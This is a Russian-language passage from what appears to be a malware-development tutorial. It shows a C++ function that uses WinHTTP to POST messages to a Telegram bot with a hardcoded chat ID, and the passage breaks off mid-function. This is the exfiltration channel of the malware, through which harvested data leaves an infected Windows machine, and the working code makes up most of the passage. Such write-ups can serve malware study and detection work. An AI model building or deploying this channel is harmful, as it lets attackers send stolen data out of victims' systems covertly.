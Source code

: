 ![malware](./images/124/2024-06-17_11-54.png){width="80%"}

Как видите, `chat ID` успешно распечатан.

Для отправки через Telegram Bot API я лишь создал эту простую функцию:

```cpp
// send data to Telegram channel using winhttp
int sendToTgBot(const char* message) {
  const char* chatId = "466662506";
  HINTERNET hSession = NULL;
  HINTERNET hConnect = NULL;

  hSession = WinHttpOpen(L"UserAgent", WINHTTP_ACCESS_TYPE_DEFAULT_PROXY, 
  WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);
  if (hSession == NULL) {
    fprintf(stderr, "WinHttpOpen. Error: %d has occurred.\n", GetLastError());
    return 1;
  }

  hConnect = WinHttpConnect(hSession, L"api.telegram.org", 
  INTERNET_DEFAULT_HTTPS_PORT, 0);
  if (hConnect == NULL) {
    fprintf(stderr, "WinHttpConnect. error: %d has occurred.\n", GetLastError());
    WinHttpCloseHandle(hSession);
  }

  HINTERNET hRequest = WinHttpOpenRequest(hConnect, L"POST", 
  L"/bot---xxxxxxxxYOUR_TOKEN_HERExxxxxx---/sendMessage", NULL, 
  WINHTTP_NO_REFERER, WINHTTP_DEFAULT_ACCEPT_TYPES, WINHTTP_FLAG_SECURE);
  if (hRequest == NULL) {
    fprintf(stderr, "WinHttpOpenRequest. error: %d has occurred.\n", GetLastError());
    WinHttpCloseHandle(hConnect);
    WinHttpCloseHandle(hSession);
  }

  // construct the request body
  char requestBody[512];
  sprintf(requestBody, "chat_id=%s&text=%s", chatId, message);

```